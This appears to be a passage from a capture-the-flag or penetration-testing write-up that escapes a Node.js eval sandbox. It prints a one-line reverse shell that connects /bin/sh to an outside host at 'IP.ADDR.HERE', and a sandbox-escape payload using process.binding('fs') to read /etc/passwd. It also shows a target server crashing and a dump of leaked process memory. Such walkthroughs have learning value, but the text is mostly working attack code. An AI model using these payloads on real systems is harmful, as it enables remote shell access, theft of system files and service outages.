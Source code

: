 
Convert to oneline:

```bash
(()=>{var e,n=require('net'),t=require('child_process').spawn('/bin/sh',[]),p=new n.Socket;return p.connect(8080,'IP.ADDR.HERE',function(){p.pipe(t.stdin),t.stdout.pipe(p),t.stderr.pipe(p)}),/a/})()
```

No not so easy.!

```bash
> eval.constructor("return (()=>{var e,n=require('net'),t=require('child_process').spawn('/bin/sh',[]),p=new n.Socket;return p.connect(8080,'IP.ADDR.HERE',function(){p.pipe(t.stdin),t.stdout.pipe(p),t.stderr.pipe(p)}),/a/})()")()
{ error: {} }
```

More research, seems like require does not exist. We need to google an alterantive route.

```bash
> eval.constructor("return typeof require")()
{ result: 'undefined' }
```

Well we have access to process, so I found a website talking about process.binding('fs') which allows us to read files from the OS.

```bash
> eval.constructor("return (() => {buffer = Buffer.allocUnsafe(8192); process.binding('fs').read(process.binding('fs').open('/etc/passwd', 0, 0600), buffer, 0, 4096); return buffer})()")()
upstream connect error or disconnect/reset before headers. retried and the latest reset reason: connection failure, transport failure reason: delayed connect error: 111
```

Woah, this seems to crash something at the server. 503 error and the site is down. Sorry! :)

Well I'm onto something.. But instead of crashing it I should maybe try figure out how to use it. I rewrote the eval.js script so I could just enter raw commands instead so it basically puts my input inside of the eval.constructor thing.

```javascript
$ buffer = Buffer.allocUnsafe(8192); return buffer.filter(el => el>31 && el <128).toString();
{"result":"$>'$>'buffere?P7'V.x:Bufferat?P7'ViallocUnsafe7'?P7' V{datfilterri?P7'PVelwArgs?P7'xV:@toString?P7'V&return (() => {buffer = Buffer.allocUnsafe(8192); return buffer.filter(el => el>31 && el <128).toString();})()?P7'Vnjs9args1?P7'XV&5fn @P7'VVh_test8@@P7'V0test9lefH@P7'V~signature0P@P7'VsignatureX@P7'@V:]signature1`@P7'pVbsignature2h@P7'Vz|signature3p@P7'V>7signature4x@P7'Vconvert0@P7'0Vyconvert@P7'XVbconvert1@P7'VjsBconvert2@P7'VLconvert3@P7'VOcos@P7'V^targ0@P7' Vz]7'0^_7']7'Vg?tg!$1#:~4|3~:q[7'q[7'q[7'q[7'LHAV@V`3IAvV)XV|1nvG':~4!$1#|3~:|(q[7'0q[7'q[7'q[7'q[7'q[7' q[7' q[7'']7'xR7'UNHH}H)HHBtHH#BtLEIHEHEOALEIHEHUH8@P7'|oHELEIHEHEQuuWHuLEM@'A@LEIHELEIHUSHH}H)HHBtHH#BtLEIHEHETALEEHAw2LEM@'A@PHuuIXIHLPABtI3IAvHuRLEIHEHEWAHELEIHEH@@P7'HUYI;uLEM@'A@ELEIHEHH@P7'HUZI;uLEM@'A@LEIHEHUHP@P7'|oHEHE[uuWHtLEM@'A@iHX@P7'HU]I;uLEM@'A@6H`@P7'HU^I;uLEM@'A@.LEIHELEIHU_HH}H)HHBtHH#BtLEIHEHE`ALEIHEHh@P7'HUbI;uLEM@'A@BLEIHEHp@P7'HUcI;uLEM@'A@LEIHELEIHUdHH}H)HHBtHH#BtLEIHEHEeALEIHEHUHx@P7'|oHELEIHEHEguuWHtLEM@'A@LEI?HEH@P7'HELEIHUiHEH@P7'HUjHEHEkuAHuPI@LEIHEHUH@P7'|oHELEIHEHEmuuWHuLEM@'A@LEIHELEIHUoHH}H)HHBtHH#BtLEIHEHEpALEEHAw2LEM@'A@PHuuIXIHLPABtI3IAvHuRLEIHEHUH@P7'oHELEIHELEIHEHEsAHEHEuuuuWHuLEM@'A@LEI?HEH@P7'HELEIHUwHEH@P7'HUxHEHEyuAHuPI@LEM@'A@$H@P7'HU{I;uLEM@'A@LEIHEHE|ALEI?HEH@P7'HELEIHU~HEH@P7'HUHEHEuAHuPI@IHSLEIHEHUH@P7'oHELEIHELEIHEHEAHELEIHEHEAHEHEuuuuWHuLEM@'A@nLEIHEHUH@P7'oHELEIHELEIHEHEAHELEIHEHEAHEHEuuuuWHtLEM@'A@jLEIHEHUH@P7'|oHELEIHEHEuuWHuLEM@'A@LEIHELEIHUHH}H)HHBtHH#BtLEIHEHEALEEHAw2LEM@'A@)PHuuIXIHLPABtI3IAvHuRLEIHEHUH@P7',oHELEIHEHEuuWHuLEM@'A@yLEIHEHUH@P7'\"oHH}H)HHBtHH#BtLEM@'A@gLEIHEHUH@P7'4oHH}H)HHBtHH#BtIH]SLEIHEHUH@P7'8oHH}H)HHBtHH#BtLEIHEb/S/d//S//S//'//l/S:/$//S?//'////(/7////(/7//d////(!/T?//d///(!///7//l/S:/$//S?//'//h///(!//'//d$//S/S//T$//S/S//t/////d&//S:/$//S?//'//d$//S?///7//l/S:/$//S?//'///S//'//d$//S/S/T/S//'//d/$//S/S//(//$/$//S/S//<///(/$/$/$//S/S//<///8/(//3//$//S/S/+//T//S//\\/S:/$//S/S///\\?/:/;//9//d/S/S/S//"}
```
